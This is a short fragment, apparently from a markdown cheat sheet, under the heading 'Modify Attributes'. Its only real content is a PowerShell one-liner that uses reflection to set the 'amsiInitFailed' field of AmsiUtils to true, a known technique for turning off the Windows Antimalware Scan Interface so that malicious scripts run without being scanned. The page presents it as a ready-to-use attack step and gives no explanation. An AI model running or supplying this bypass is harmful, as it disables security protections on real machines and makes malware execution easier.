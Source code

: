 ## Modify Attributes

```powershell
[Ref].Assembly.GetType(“System.Management.Automation.AmsiUtils”).GetField(‘amsiInitFailed’,’NonPublic,Static’).SetValue($null,$true)
```